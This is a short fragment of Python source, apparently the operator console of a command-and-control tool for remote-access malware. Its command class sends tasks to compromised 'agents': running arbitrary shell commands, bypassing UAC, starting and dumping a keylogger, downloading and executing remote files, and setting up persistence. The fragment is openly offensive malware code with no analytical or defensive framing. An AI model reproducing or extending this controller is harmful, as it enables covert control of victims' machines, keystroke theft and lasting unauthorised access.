 
class AgentCMD(cmd.Cmd):

	# This is the Agent command line .
	def do_sysinfo(self,s):
		sendTask(interactedAgent,"{SHELL}systeminfo")
	def do_bypassuac(self,s):
		sendTask(interactedAgent,"bypassuac")
	def do_keylog_start(self,s):
		sendTask(interactedAgent,"keylog_start")
	def do_keylog_stop(self,s):
		sendTask(interactedAgent,"keylog_stop")
	def do_keylog_dump(self,s):
		sendTask(interactedAgent,"keylog_dump")
	def do_exec(self,s):
		sendTask(interactedAgent,"{SHELL}%s" % s)
	def do_downloadexecute(self,s):
		sendTask(interactedAgent,"{DOWNLOAD}%s" % s)
	def do_persist(self,s):
		sendTask(interactedAgent,"persist")
	def do_back(self,s):
		interactedAgent = ""
		return True
	def emptyline(self):
		pass


def main():
	print banner

	agents = AgentChecker()
	checker = TaskChecker()
	commandInputs = Input().cmdloop()
	

if __name__ == "__main__":
	main()

